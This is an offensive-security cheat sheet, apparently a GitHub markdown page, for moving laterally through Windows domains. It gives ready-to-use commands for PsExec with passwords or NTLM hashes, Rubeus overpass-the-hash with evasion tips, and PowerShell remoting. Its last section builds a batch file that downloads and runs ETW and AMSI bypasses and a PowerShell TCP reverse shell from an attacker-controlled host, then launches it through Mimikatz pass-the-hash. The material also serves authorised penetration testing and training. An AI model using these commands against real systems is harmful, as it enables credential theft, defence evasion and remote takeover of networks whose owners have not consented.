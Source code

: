#### Psexec
- Sysinternals Psexec seems to only work with password or after a overpass the hash attack with Mimikatz!
- Impacket: https://github.com/maaaaz/impacket-examples-windows
```
.\PsExec64.exe \\<COMPUTERNAME> -accepteula -u <DOMAIN>\<ADMINISTRATOR -p <PASSWORD> -i cmd.exe
.\PsExec64.exe \\<COMPUTERNAME> -accepteula -u <COMPUTERNAME>\administrator -p <PASSWORD> -i cmd.exe
.\PsExec64.exe \\<COMPUTERNAME> -accepteula 

.\psexec_windows.exe <DOMAIN>/<USER>@<TARGET FQDN> -hashes :<NTLM HASH>
```

### Overpass The Hash
- Over Pass the hash (OPTH) generate tokens(kerberos) from hashes or keys. Needs elevation (Run as administrator)
- OPSEC TIP: Use aes256 keys!

#### Calculate NTLM hash
```
.\Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

#### Rubeus
- Below doesn't need elevation
```
Rubeus.exe asktgt /user:<USER> /rc4:<NTLM HASH> /domain /nowrap /ptt
Rubeus.exe asktgt /user:<USER> /aes256:<AES256KEYS> /domain /opsec /nowrap /ptt
```

- Below command needs elevation
```
Rubeus.exe asktgt /user:<USER> /aes256:<AES256KEYS> /domain /opsec /nowrap /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Double hop issue
#### Pssession in pssession
```
Enter-PSSession -ComputerName <NAME>
$sess = New-PSSession <SERVER> -Credential <DOMAIN>\<USER>
Invoke-Command -Scriptblock {hostname; whoami;} -Session $sess
```

#### Overpass the hash mimikatz reverse shell
```
powercat -l -v -p 444 -t 5000

$sess = New-PSSession <SERVER> 
#.ps1 is a reverse shell back to the attacker machine, make sure you run it as the user you want
$Contents = 'powershell.exe -c iex ((New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/etw.txt'')); iex ((New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/amsi.txt'')); iex ((New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''))'; Out-File -Encoding Ascii -InputObject $Contents -FilePath reverse.bat

Invoke-Mimikatz -Command '"sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH> /run:C:\reverse.bat"'
```
